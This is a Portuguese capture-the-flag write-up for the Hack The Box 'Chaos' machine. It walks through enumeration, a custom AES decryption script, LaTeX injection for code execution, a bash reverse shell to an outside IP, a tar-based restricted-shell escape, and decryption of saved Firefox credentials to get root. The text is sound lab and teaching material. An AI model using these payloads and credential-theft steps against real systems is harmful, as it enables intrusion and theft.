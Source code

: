 ![1](/assets/images/htb/chaos/1.png)  
Antes de iniciar a solução, adicionei as seguintes alterações ao **/etc/hosts**:  
![2](/assets/images/htb/chaos/2.png)  
---
# Enumeração
Iniciando com o nmap, é possível visualizar alguns serviços e portas:  
`nmap -sV -Pn 10.10.10.120`  
![3](/assets/images/htb/chaos/3.png)  
Nós temos http na porta 80 , serviços relacionados a email (imap, pop3) em execução nas portas 110, 143, 993 e 995.
Começando pelo http:  
![4](/assets/images/htb/chaos/4.png)  
Após uns minutos revirando, não encontrei nenhuma informação útil e segui.
Utilizando o gobuster em **chaos.htb** recebemos:  
```
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://chaos.htb/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/05/24 14:36:56 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/javascript (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
/source (Status: 301)
=====================================================
2019/05/24 14:40:36 Finished
=====================================================
```  
Porém, quando utilizado o gobuster diretamente em **10.10.10.120**, o resultado foi:  
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.120/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/05/24 14:41:52 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/wp (Status: 301)
=====================================================
2019/05/24 14:45:37 Finished
=====================================================
```  
O que é, no mínimo, curioso.
Checando o diretório **/wp**, qual foi obtido no scan diretamente no ip, podemos visualizar a seguinte saída:  
![5](/assets/images/htb/chaos/5.png)  
acessando **/wp/wordpress**, obtemos uma página. Acessando a área de **posts**, no canto direito do menu, obtemos uma página com um campo **"password"**, e logo acima a mensagem **"OCTOBER 20, 2018 BY HUMAN"**.
Utilizando **"human"** como password, obtemos a seguinte saída:  
![6](/assets/images/htb/chaos/6.png)  
## O serviço de e-mail  
Nesse momento, baseado nos resultados de e-mail do nmap, resolvi adicionar a seguinte mudança ao **/etc/hosts**:  
![7](/assets/images/htb/chaos/7.png)  
e, acessando **webmail.chaos.htb**:  
![8](/assets/images/htb/chaos/8.png)  
Utilizando as credenciais obtidas no setor wordpress e acessando os rascunhos:  
![9](/assets/images/htb/chaos/9.png)  
Baixando os arquivos anexados, obtemos uma mensagem criptografada e um script python.  
```
def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)  
    encryptor = AES.new(key, AES.MODE_CBC, IV)  
    with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
            outfile.write(filesize.encode('utf-8'))
            outfile.write(IV)  
            while True:
                chunk = infile.read(chunksize)  
                if len(chunk) == 0:
                    break
                elif len(chunk) % 16 != 0:
                    chunk += b' ' * (16 - (len(chunk) % 16))  
                outfile.write(encryptor.encrypt(chunk))
def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```
O script usa criptografia AES para fazer a codificação, logo, precisamos de uma função que faça o processo contrário.  
```
from Crypto.Hash import SHA256
from Crypto.Cipher import AES  
def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()  
def decode(key, filename):
    fileoutput = filename + "_out"
    csize = 64*1024  
    with open(filename, 'rb') as file:
        size = int(file.read(16))
        value = file.read(16)
        decrypt = AES.new(key, AES.MODE_CBC, value)
        with open(fileoutput, 'wb') as outfile:
            while True:
                chunk = file.read(csize)
                if len(chunk) == 0:
                    break
                outfile.write(decrypt.decrypt(chunk))
            outfile.truncate(size)  
password = input("Senha: ")
decode(getKey(password), 'enim_msg.txt')
```  
No email, a dica era:  
```
"Hii, sahay
Check the enmsg.txt
You are the password XD."
```
Então, usamos nosso nome **"sahay"** como senha.
A saída:  
![10](/assets/images/htb/chaos/10.png)  
## Exploração e obtenção de shell  
Acessando `http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3`, temos:  
![11](/assets/images/htb/chaos/11.png)  
Utilizando um proxy e checando a saída desta requisição, vemos:  
![12](/assets/images/htb/chaos/12.png)  
* É Possível vermos [pdfTeX](https://en.wikipedia.org/wiki/PdfTeX) no corpo da resposta  
Abusando do LaTeX injection, podemos obter uma possível execução de código remoto.
A estrutura do payload: `\immediate\write18{env > output}` ou `\input{output}`. Outros exemplos podem ser encontrados em [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).  
Enviando uma requisição de shell reversa, temos a saída:  
payload: `bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'` [ encoded as url ]  
![13](/assets/images/htb/chaos/13.png)  
## Escalada de privilégios 1/2  
Após usar o python pty, podemos utilizar do usuário `ayush:jiujitsu` que conseguimos anteriormente.  
![14](/assets/images/htb/chaos/14.png)  
Conseguimos o acesso, porém, com uma shell restrita.
Podemos visualizar os binários quais podemos executar, exibindo o PATH e utilizando da tecla **tab**.  
![15](/assets/images/htb/chaos/15.png)  
* tar
* ping
* dir  
---  
Utilizando do Tar para o retorno da shell com:  
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
e concertando o PATH com:  
`export PATH=/bin`  
ou  
```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
![16](/assets/images/htb/chaos/16.png)  
## Escalada de privilégios 2/2  
Listando os diretórios e arquivos ocultos, temos:  
![17](/assets/images/htb/chaos/17.png)  
Com o diretório **.mozila** disponível, podemos trazê-lo para nosso ambiente local utilizando:  
`python -m SimpleHTTPServer port`  
E baixando localmente em nossa máquina, com:  `http://chaos.htb:1919/ --recursive`  
![18](/assets/images/htb/chaos/18.png)  
após o download, vemos que existe um arquivo chamado **bzo7sjt1.default** dentre vários outros. E, utilizando da ferramenta [Firefox_decrypt](https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py), podemos fazer a decodificação do nosso arquivo *.default. Logo após o download e execução da ferramenta, ele nos solicita uma Senha.
Utilizando da senha `jiujitsu` do usuário `ayush` que conseguimos previamente, obtemos a saída do arquivo criptografado:  
![19](/assets/images/htb/chaos/19.png)  
Voltando à nossa shell, utilizamos as credenciais para o *root* e obtemos a flag final:  
![20](/assets/images/htb/chaos/20.png)  
---
### Referências  
* [GTFoBins](https://gtfobins.github.io/)
* [Pentestmonkey](http://pentestmonkey.net/)
* [Linux Restricted Shell Bypass](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)  